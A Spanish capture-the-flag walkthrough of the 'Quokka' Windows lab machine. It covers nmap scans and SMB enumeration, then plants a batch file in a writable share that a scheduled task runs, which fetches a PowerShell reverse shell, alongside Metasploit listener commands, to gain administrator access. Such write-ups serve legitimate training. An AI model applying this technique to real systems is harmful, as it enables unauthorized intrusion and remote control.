

# Quokka - The Hacker Labs (Fácil)

Quokka es una máquina Windows de la plataforma de "The Hacker Labs". De dificultad fácil.

## Reconocimiento

Lo primero es hacer ping a la máquina para comprobar si hay conectividad. La ttl es 128 por lo tanto la máquina es Windows.


Hacemos un escaner con nmap para ver que puertos hay abiertos.

`nmap -p- -vvv --open -T5 -Pn -n 10.0.2.16`


## Enumeración

Hacemos un escaner con nmap para analizar que servicios corren en los puertos.

`nmap -p 80,135,139,445,5985,47001,49664,49665,49667,49669,49670,49671,49681 -sVC -Pn -n 10.0.2.16 -oN scan`

Y vemos que principalmente corre un servicio HTTP y un SMB, que podemos identificar por los puertos 139 y 445.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-02 12:24 CEST
Nmap scan report for 10.0.2.16
Host is up (0.0040s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Portfolio y Noticias Tech de Quokka 
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Datacenter 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49681/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -39m58s, deviation: 1h09m16s, median: 1s
| smb-os-discovery: 
|   OS: Windows Server 2016 Datacenter 14393 (Windows Server 2016 Datacenter 6.3)
|   Computer name: WIN-VRU3GG3DPLJ
|   NetBIOS computer name: WIN-VRU3GG3DPLJ\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-02T12:25:56+02:00
|_nbstat: NetBIOS name: WIN-VRU3GG3DPLJ, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:f1:48:2a (Oracle VirtualBox virtual NIC)
| smb2-time: 
|   date: 2025-05-02T10:25:56
|_  start_date: 2025-05-02T10:17:14
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.37 seconds
```

También he ejecutado `whatweb` para ver si el servicio http me puede dar mas información pero no encuentro nada mas.


Si entramos en la página y la inspeccionamos un poco podremos vemos que es una página estática así que por aqui no hay mucho que ver.


Luego ejecuto el comando `enum4linux` para ver si me da información sobre el SMB, pero al no proporcionarle ningún usuario no me da información.


Viendo la parte derecha de la página podemos ver varios nombres.


Así que probamos a ejecutar `enum4linux` con el usuario daniel, y ahora si obtenemos mas información.

`enum4linux -u daniel -a 10.0.2.16`

Tanto con `enum4linux` como con `smbmap` podemos ver una carpeta compartida con permisos tanto de lectura como de escritura.


Entramos en la carpeta compartida "Compartido" con `smbclient` y descargamos su contenido.


```
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```


Después de mirar varios archivos encontramos este, el cual se ejecuta cada minuto y lo que hace es descargar y ejecutar un archivo .ps1 con powershell.


## Explotación

Teniendo en cuenta que esta carpeta compartida tiene permisos de escritura podemos escribir un archivo `mantenimiento.bat` que descargue un archivo .ps1 que a su vez ejecute una shell reversa.

`nvim mantenimiento.bat`


Desde esta pagina podemos copiar una reverse shell que se ejecute con powershell:
https://www.revshells.com/

Creamos el archivo shell.ps1 y pegamos el código.

`nvim shell.ps1`


Creo un servidor http con python.



Pongo el puerto 4444 en escucha con `msfconsole` para así posteriormente poder mejorar la shell a meterpreter (spoiler: no pude hacerlo).

```
sudo msfconsole
use multi/handler
set LHOST 10.0.2.11
set payload windows/shell/reverse_tcp
run
```

Subo el archivo `mantenimiento.bat` por SMB.


Espero a obtener la shell.


## Post-Explotación

Aqui intento mejorar la shell a meterpreter sin exito.


Abro la shell de nuevo y veo que soy el administrador.

`sessions 2`


Aquí está la flag del admin admin.txt.


Aquí está la flag de usuario user.txt.

